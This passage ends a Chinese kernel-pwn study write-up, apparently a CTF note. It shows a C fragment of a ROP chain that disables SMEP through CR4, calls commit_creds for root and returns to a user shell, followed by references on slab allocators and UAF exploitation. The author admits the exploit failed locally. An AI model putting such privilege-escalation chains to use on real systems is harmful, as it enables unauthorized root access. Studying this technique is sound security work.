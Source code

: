 ```
    void (*cc)(char*) = commit_creds_addr;
    (*cc)((*pkc)(0));
}
int main() {
    size_t rop[32] = {0};
    rop[i++] = 0xffffffff81521a97;      // pop rdi; ret;
    rop[i++] = 0x6f0;
    rop[i++] = 0xffffffff8101fb0d;      // mov cr4, rdi; ret;
    rop[i++] = (size_t)get_root;
    rop[i++] = 0xffffffff8106c717;      // swapgs; ret;
    rop[i++] = 0xffffffff81035a2b;      // iretq; ret
    rop[i++] = (size_t)get_shell;
    rop[i++] = user_cs;                /* saved CS */
    rop[i++] = user_rflags;            /* saved EFLAGS */
    rop[i++] = user_sp;
    rop[i++] = user_ss;
}
```
> 我的环境中没有exploit成功，也可能是因为没有找到gadget的原因，但是利用思路已经很明显了就是这个样子


# 参考资料
* [Linux内存管理中的slab分配器](https://www.cnblogs.com/pengdonglin137/p/3878552.html)
* [Kernel那些事儿之内存管理(7) --- Slab（上）](https://blog.51cto.com/richardguo/1673269)

* [linux内核slab机制分析](https://www.jianshu.com/p/95d68389fbd1)

* [slab分配器--Linux内存管理(二十二)](https://blog.csdn.net/gatieme/article/details/52705552)

* [binary-源码分析-Linux-kernel-内存管理机制](https://hitworld.github.io/posts/ee6cd918/)
* [【linux内存源码分析】slub分配算法（3）](https://www.jeanleo.com/2018/09/07/%E3%80%90linux%E5%86%85%E5%AD%98%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%E3%80%91slub%E5%88%86%E9%85%8D%E7%AE%97%E6%B3%95%EF%BC%883%EF%BC%89/)
* [图解slub](https://richardweiyang-2.gitbook.io/kernel-exploring/00-memory_a_bottom_up_view/09-slub_in_graph)
* [linux 内核 内存管理 slub算法 （一） 原理](https://blog.csdn.net/lukuen/article/details/6935068)
* [利用Linux内核里的Use-After-Free（UAF）漏洞提权](https://www.freebuf.com/vuls/95708.html)
* [Protostar-堆溢出学习-UAF(use after free)](http://4ch12dy.site/2017/04/21/Protostar-%E5%A0%86%E6%BA%A2%E5%87%BA%E7%B3%BB%E5%88%97%E5%AD%A6%E4%B9%A0-heap%202/Protostar-%E5%A0%86%E6%BA%A2%E5%87%BA%E7%B3%BB%E5%88%97%E5%AD%A6%E4%B9%A0-heap%202/)
* [C/C++刁钻问题各个击破之细说sizeof](https://blog.csdn.net/w57w57w57/article/details/6626840)
* [linux kernel pwn notes](https://www.secshi.com/17013.html)
* [CLASS_CREATE()](https://www.cnblogs.com/LxwEmbedded/p/4854714.html)
* [mm-slab初始化](https://www.cnblogs.com/adera/p/11718722.html)
* [【KERNEL PWN】WCTF 2018 klist解题思路](http://p4nda.top/2018/11/27/wctf-2018-klist/)
* [Linux TTY函数跟踪](https://www.shuzhiduo.com/A/ZOJP4pxOJv/)
* [【KERNEL PWN】CISCN 2017 babydriver题解](http://p4nda.top/2018/10/11/ciscn-2017-babydriver/)
* [smap，smep](http://chinaunix.net/uid-31410005-id-5822053.html)
* [linux kernel pwn学习之堆漏洞利用+bypass smap、smep](https://blog.csdn.net/seaaseesa/article/details/104591448/)
